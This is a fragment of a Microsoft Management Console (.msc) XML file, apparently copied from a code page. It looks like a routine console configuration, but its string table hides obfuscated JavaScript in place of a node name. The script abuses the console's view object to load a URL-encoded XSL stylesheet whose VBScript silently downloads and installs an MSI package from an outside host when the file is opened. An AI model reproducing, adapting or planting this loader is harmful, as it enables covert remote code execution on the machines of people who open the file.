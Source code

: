 ```
                    </Node>
                    <Node ID="9" ImageIdx="0" CLSID="{C96401CF-0E17-11D3-885B-00C04F72C717}" Preload="true">
                        <Nodes />
                        <String Name="Name" ID="23" />
                        <ComponentDatas>
                            <ComponentData>
                                <GUID Name="Snapin">{C96401CF-0E17-11D3-885B-00C04F72C717}</GUID>
                                <Stream BinaryRefIndex="1" />
                            </ComponentData>
                        </ComponentDatas>
                        <Components>
                            <Component ViewID="1">
                                <GUID Name="Snapin">{C96401CF-0E17-11D3-885B-00C04F72C717}</GUID>
                            </Component>
                        </Components>
                    </Node>
                </Nodes>
                <String Name="Name" ID="8" />
                <ComponentDatas>
                    <ComponentData>
                        <GUID Name="Snapin">{C96401CC-0E17-11D3-885B-00C04F72C717}</GUID>
                    </ComponentData>
                </ComponentDatas>
                <Components />
            </Node>
        </Nodes>
    </ScopeTree>
    <ConsoleTaskpads />
    <ViewSettingsCache />
    <ColumnSettingsCache />
    <StringTables>
        <IdentifierPool AbsoluteMin="1" AbsoluteMax="65535" NextAvailable="40" />
        <StringTable>
            <GUID>{71E5B33E-1064-11D2-808F-0000F875A9CE}</GUID>
            <Strings>
                <String ID="1" Refs="1">Favorites</String>
                <String ID="8" Refs="2">// Console Root
          var uxuuFZSNY = external.Document.ScopeNamespace;
          var DHLxiYo = uxuuFZSNY.GetRoot()
          var FucocF = uxuuFZSNY.GetChild(DHLxiYo)
          var SpTXWJC = uxuuFZSNY.GetNext(FucocF)

          external.Document.ActiveView.ActiveScopeNode = SpTXWJC
          VFqMpYvzGFOM = external.Document.ActiveView.ControlObject
          external.Document.ActiveView.ActiveScopeNode = FucocF

          var aLVdPlfW = VFqMpYvzGFOM;
          aLVdPlfW.async = false
          var NTaqcK = aLVdPlfW;

          NTaqcK.loadXML(unescape("%3C%3Fxml%20version%3D%271.0%27%3F%3E%0A%3Cstylesheet%0Axmlns%3D%22http%3A%2F%2Fwww.w3.org%2F1999%2FXSL%2FTransform%22%20xmlns%3Ams%3D%22urn%3Aschemas-microsoft-com%3Axslt%22%0Axmlns%3Auser%3D%22placeholder%22%0Aversion%3D%221.0%22%3E%0A%3Coutput%20method%3D%22text%22%2F%3E%0A%3Cms%3Ascript%20implements-prefix%3D%22user%22%20language%3D%22VBScript%22%3E%0A%3C%21%5BCDATA%5B%0Aon%20error%20resume%20next%0ASet%20wshshell%20%3D%20CreateObject%28%22WindowsInstaller.Installer%22%29%0Awshshell.uilevel%3D2%0Awshshell.installproduct%20%22https%3A%2F%2Fcdn7s65.z13.web.core.windows.net%2Fver.dat%22%2C%22REMOVE%3DALL%22%0Awshshell.installproduct%28%22https%3A%2F%2Fcdn7s65.z13.web.core.windows.net%2Fver.dat%22%29%0A%5D%5D%3E%3C%2Fms%3Ascript%3E%0A%3C%2Fstylesheet%3E"))
          aLVdPlfW.transformNode(NTaqcK)
        </String>
                <String ID="23" Refs="2">Document</String>
```